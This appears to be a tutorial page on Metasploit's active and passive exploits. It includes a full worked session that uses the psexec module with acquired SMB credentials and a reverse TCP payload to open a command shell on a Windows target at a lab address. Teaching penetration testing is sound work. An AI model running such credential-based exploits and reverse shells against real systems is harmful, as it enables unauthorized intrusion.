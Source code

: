All exploits in the Metasploit Framework will fall into two categories: active and passive.

**Active Exploits**

Active exploits will exploit a specific host, run until completion, and then exit.

        Brute-force modules will exit when a shell opens from the victim.
        Module execution stops if an error is encountered.
        You can force an active module to the background by passing ‘-j’ to the exploit command:


```bash
msf exploit(ms08_067_netapi) > exploit -j
[*] Exploit running as background job.
msf exploit(ms08_067_netapi) >
```

***Example***

The following example makes use of a previously acquired set of credentials to exploit and gain a reverse shell on the target system.


```bash
msf > use exploit/windows/smb/psexec

msf exploit(psexec) > set RHOST 192.168.1.100
RHOST => 192.168.1.100
msf exploit(psexec) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf exploit(psexec) > set LHOST 192.168.1.5
LHOST => 192.168.1.5
msf exploit(psexec) > set LPORT 4444
LPORT => 4444
msf exploit(psexec) > set SMBUSER victim
SMBUSER => victim
msf exploit(psexec) > set SMBPASS s3cr3t
SMBPASS => s3cr3t
msf exploit(psexec) > exploit

[*] Connecting to the server...
[*] Started reverse handler
[*] Authenticating as user 'victim'...
[*] Uploading payload...
[*] Created \hikmEeEM.exe...
[*] Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
[*] Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
[*] Obtaining a service manager handle...
[*] Creating a new service (ciWyCVEp - "MXAVZsCqfRtZwScLdexnD")...
[*] Closing service handle...
[*] Opening service...
[*] Starting the service...
[*] Removing the service...
[*] Closing service handle...
[*] Deleting \hikmEeEM.exe...
[*] Sending stage (240 bytes)
[*] Command shell session 1 opened (192.168.1.5:4444 -> 192.168.1.100:1073)

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

**Passive Exploits

- Passive exploits wait for incoming hosts and exploit them as they connect.

        Passive exploits almost always focus on clients such as web browsers, FTP clients, etc.
        They can also be used in conjunction with email exploits, waiting for connections.
        Passive exploits report shells as they happen can be enumerated by passing ‘-l’ to the sessions command. Passing ‘-i’    will interact with a shell.








